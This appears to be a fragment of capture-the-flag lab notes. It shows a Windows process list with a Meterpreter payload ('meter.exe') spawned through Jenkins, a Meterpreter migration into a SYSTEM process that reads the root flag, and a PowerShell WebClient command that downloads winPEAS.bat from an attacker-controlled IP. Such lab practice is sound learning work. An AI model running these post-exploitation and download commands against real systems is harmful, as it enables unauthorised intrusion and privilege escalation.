  940   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 988   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1016  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1064  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1180  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1212  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1324  668   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1408  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1444  668   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1472  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1540  2856  powershell.exe        x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 1600  668   jenkins.exe           x64   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jenkins.exe
 1696  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1712  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1808  1600  java.exe              x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\jre\bin\java.exe
 1888  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2120  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2768  524   conhost.exe           x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2856  1808  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe
 2944  1540  meter.exe             x86   0        alfred\bruce                  C:\Users\bruce\meter.exe
 2964  668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 3000  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe

meterpreter > migrate 668
[*] Migrating from 2944 to 668...
[*] Migration completed successfully.

meterpreter > cat C:/Windows/System32/config/root.txt
��dff0f748678f280250f25a45b8046b4a













cp /home/kali/thm/steelmountain/winPEAS.bat .

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.28.128/winPEAS.bat','winPEAS.bat')"